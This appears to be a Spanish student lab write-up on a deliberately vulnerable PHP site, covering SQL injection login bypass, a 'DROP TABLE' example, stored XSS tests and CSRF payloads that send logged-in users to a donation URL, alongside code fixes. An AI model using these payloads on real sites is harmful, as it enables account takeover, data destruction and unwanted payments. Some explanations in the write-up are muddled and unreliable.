



# Parte 1 SQLi

## a) Ejemplo de error en consulta SQL

En el directorio ``/insert_player.php`` encontramos un formulario con los campos de ``usuario`` y ``contraseña``. Al introducir las comillas dobles `"` en el campo ``usuario``, la web nos devuelve el siguiente error de base de datos:



Gracias a esto, podemos ver la consulta que se está haciendo internamente, y modificar la inyección para sacar lo que nosotros queramos.

| Pregunta | Resultado |
| - | - |
| Escribo los valores | " |
| En el Campo | ``User`` |
| Del formulario de la página | /insert_player.php |
| La consulta que se ejecuta es | ``SELECT userId, password FROM users WHERE username = """`` |
| Campos del formulario web utilizados en la consulta SQL | ``user`` |
| Campos del formulario web **no** utilizados en la consulta SQL | ``password`` |

## b) Ataque por diccionario sin saber el usuario

Una vez comprobado que el formulario es vulnerable y visto como se hace la consulta, podemos crear una inyección SQL para iniciar sesión con el primer usuario de la base de datos:

```sql
SELECT userId, password FROM users WHERE username = "" OR 1=1 AND password="1234"-- -"
```

| Pregunta | Respuesta |
| - | - |
| Explicación del ataque | El ataque consiste en repetir una consulta utilizando, en cada interacción, una contraseña diferente del diccionario |
| Campo de usuario con que el ataque ha tenido éxito | " OR 1=1 AND password="1234"-- - |
| Campo de contraseña con que el ataque ha tenido éxito | 1234 |

## c) Error de programación

En esta sección debemos revisar el código de la página para revisar lo que ya sabemos:



Como se muestra en la imágen, se detectan varias vulnerabilidades en el código. Las explico en la siguiente tabla:

| Pregunta | Respuesta |
| - | - |
| Explicación del error | Se usa SQLite3::escapeString para evitar SQLi, pero no está funcionando |
| Solución: Cambiar la línea con el código | $query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"'); |
| por la siguiente línea | $query = $db->prepare('SELECT userId, password FROM users WHERE username = :username');<br>$query->bindValue(':username', $user, SQLITE3_TEXT); |
| | |
| Explicación del error | Uso de `$_COOKIE` para almacenar información sensible |
| Solución: Cambiar la línea con el código | $_COOKIE['userId'] = $userId; |
| por la siguiente línea | session_start();  // Esta línea debe estar al comienzo del archivo.<br>$_SESSION['userId'] = $userId;<br> |
| | |
| Explicación del error | No se está validando si el `username` existe |
| Solución: Cambiar la línea con el código | if(!isset($row['password'])) return FALSE;<br> |
| por la siguiente línea | if ($row === false) {<br>    return FALSE; // Usuario no existe<br>}<br> |
| | |
| Explicación del error | Comparación de contraseñas en texto plano |
| Solución: Cambiar la línea con el código | if ($password == $row['password'])<br> |
| por la siguiente línea | if (password_verify($password, $row['password']))<br> |

## d) Vulnerabilidad en add_comment.php

Tras realizar un fuzzeo de archivos y directorios, encontramos el archivo ``add\_comment.php~``. Parece ser una copia de seguridad del archivo real, pero podemos usarlo para detectar vulnerabilidades en el código fuente. Encontramos las siguientes:

| Pregunta | Respuesta |
| - | - |
| Vulnerabilidad detectada | Inyección SQL |
| Descripción del ataque | El atacante puede manipular el valor de $_GET['id'] en la URL para ejecutar consultas maliciosas en la base de datos, como robar información o modificar datos. Por ejemplo, usando: ?id=1; DROP TABLE comments;--. |
| ¿Cómo podemos hacer que sea segura esta entrada? | Utilizar consultas parametrizadas para evitar la inyección SQL, como prepare y bindValue. También validar y sanitizar el parámetro id asegurándose de que solo acepte valores numéricos. |
| | |
| Vulnerabilidad detectada | Cross-Site Scripting(XSS) |
| Descripción del ataque | Si un atacante logra inyectar código HTML o JavaScript malicioso en los campos username o body de la base de datos, dicho contenido se renderizará en el navegador del usuario, permitiendo un ataque XSS. |
| ¿Cómo podemos hacer que sea segura esta entrada? | Escapar los datos antes de mostrarlos en la página utilizando funciones como htmlspecialchars para evitar la ejecución de código malicioso. |

# Parte 2 XSS

Como vimos en la sección `d` de la ``parte 1``, la sección `añdir comentario`, es vulnerable a ``XSS``.

## a) alert

Vamos a introducir el siguiente comentario para probar si es vulnerable de verdad a `XSS`.

| Pregunta | Respuesta |
| - | - |
| Introduzco el mensaje | ```<script>alert("Prueba")</script>``` |
| En el formulario de la página | http://web_vulnerable/add_comment.php?id=5 |



Como vemos en la imagen, al entrar en la sección de comentarios, aparece la alerta que acabamos de crear.

## b) & en URL

En algunos enlaces de la página, encontrmos `&amp`. Esto es así porque el navegador puede confundir `&` como parte del código, entonces se añadió `amp` para evitar esta confusión y que el enlace funcione correctamente.

## c) Problema al mostrar los comentarios

Como dije antes, se encontraron 2 vulnerabilidades principales en la sección ``añadir comentarios``, ``SQLi`` y ``XSS``.

- **SQLi**

Sustituyo el código de la/las líneas:
```php
$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId =".$_GET['id']." AND U.userId = C.userId order by C.playerId desc"; 
$result = $db->query($query) or die("Invalid query: " . $query);
``` 

Por el siguiente código:
```php
$playerId = intval($_GET['id']); // Validar que sea un entero
$stmt = $db->prepare("SELECT commentId, username, body 
                      FROM comments C, users U 
                      WHERE C.playerId = :id AND U.userId = C.userId 
                      ORDER BY C.playerId DESC");
$stmt->bindValue(':id', $playerId, SQLITE3_INTEGER);
$result = $stmt->execute();
```

- **XSS**

Sustituyo el código de la/las líneas
```php
echo "<div>
        <h4> ". $row['username'] ."</h4> 
        <p>commented: " . $row['body'] . "</p>
      </div>";
```

Por el siguiente código
```php
echo "<div>
        <h4>" . htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8') . "</h4> 
        <p>commented: " . htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8') . "</p>
      </div>";
```

## d) Otras páginas afectadas 

Tras un análisis profundo de la web, encontramos otra sección vulnerable:

| Pregunta | Respuesta |
| - | - |
| Otras páginas afectadas | ``/insert_player.php`` |
| ¿Cómo lo he descubierto? | Probando en todos los formularios que he visto |

# Parte 3 Control de acceso, autenticación y sesiones de usuarios

## a) Registro más seguro
- Validar las entradas de los usuarios.
	La aplicación no valida si el usuario está inyectando código SQL.
- Encriptar las contraseñas en lugar de guardarlas en texto plano.
	Por lo que se puede ver en el código, las contraseñas se guardan sin cifrar.
- Se crean usuario con privilegios.
	Cualquier persona puede crear usuarios que pueden añadir entradas en la página.
- Prohibir contraseñas inseguras.
	Evitar el uso de contraseñas débiles.

## b) Login más seguro
- Validar las entradas de los usuarios.
	La aplicación no valida si el usuario está inyectando código SQL.
- Verificación de contraseñas de manera segura.
	Usar la función **password_verify()** para comprobar si la contraseña coincide con la de la base de datos.
- Limitar los intentos de login(Evitar fuerza bruta).
	Bloquear a los usuarios que fallen 3-5 veces el login para evitar los ataques de fuerza bruta.

## c) Registro aún más seguro
- Solo poder entrar en esta página si estás logeado.
	De esta forma evitamos que cualquier persona cree nuevos usuarios.
- Hacer que un administrador valide a los usuarios.
	Si, de alguna forma, alguien desconocido se registra, sería necesario que un administrador valide ese usuario.
- Crear roles de usuario.
	Hacer distinciones entre usuarios administradores y usuarios comunes.

## d) Acceso a la carpeta private


Por lo que se ve en la imagen anterior, no, no tenemos acceso a la carpeta private desde el navegador, pero si tuviéramos acceso, tendríamos que denegar el acceso a la carpeta editando los archivos de configuración del apache.

## e) Suplantar la identidad
Como hicimos en el apartado 1.b, suplantamos la identidad del usuario *luis*. Esto se podría evitar haciendo uso de los tokens CSRF en los formularios de login.

# Parte 4 Servidores web
- Validación de entradas.
- Contraseñas seguras.
- Limitación de intentos de login.
- Roles de usuario.
- Acceso restringido a archivos sensibles.
- Uso de CSRF tokens.

# Parte 5 CSRF

## a) Añadir botón para donar


| Pregunta | Respuesta |
| ----------- | - |
| En el campo | ``team`` |
| Introduzco  | ```<form action="http://web.pagos/donate.php?amount=100&receiver=attacker" method="get"> <button type="submit">Profile</button> </form>``` |

## b) Redirigir al ver los comentarios

| Pregunta | Respuesta |
| - | - |
| En el campo | ``comentario`` |
| Introduzco  | ```<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>``` |

## c) Condiciones para transferir el dinero

Para que las donaciones ocurran, los usuarios que le den al botón o entren a la sección de comentarios, deben estar logeados en la página.

## d) Otro tipo de ataque

```html
<form action="donate.php" method="POST">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>">
    <input type="submit" value="Realizar donación">
</form>
```